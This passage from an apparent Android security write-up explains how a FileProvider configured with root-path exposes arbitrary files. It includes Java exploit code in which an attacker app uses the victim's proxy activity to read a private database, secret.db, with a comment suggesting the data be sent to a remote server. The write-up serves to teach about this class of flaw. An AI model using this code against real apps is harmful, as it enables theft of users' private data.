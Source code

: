 It provides read/write access to files on a special list that can be found in the app resources, in this case at `res/xml/provider_paths.xml`

It may look somewhat like

```
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path />
    <files-path />
    <cache-path />
    <external-path />
</paths>


```

Each tag specifies a root directory with a `path` value relative to the root. For instance, the value `external_files` will correspond to `new File(Environment.getExternalStorageDirectory(), "images")`

The value `root-path` corresponds to `/`, i.e. provides access to arbitrary files.

Let us say we have some secret data stored in the file `/data/data/com.victim/databases/secret.db`: the theft of this file may look something like this `MainActivity.java`

```
Intent extra = new Intent();
extra.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
extra.setClassName(getPackageName(), "com.attacker.LeakActivity");
extra.setData(Uri.parse("content://com.victim.files_provider/root/data/data/com.victim/databases/secret.db"));

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);


```

`LeakActivity.java`

```
InputStream i = getContentResolver().openInputStream(getIntent().getData()); // we can now do whatever we like with this stream, e.g. send it to a remote server


```

Access to arbitrary components via WebView
------------------------------------------

An Intent object can be cast to a string with a call to `Intent.toUri(flags)` and back from a string to an Intent using `Intent.parseUri(stringUri, flags)`. This functionality is often used in WebView (the app’s built-in browser): the app can verify an `intent://` scheme, parse the URL into an Intent and launch the activity.

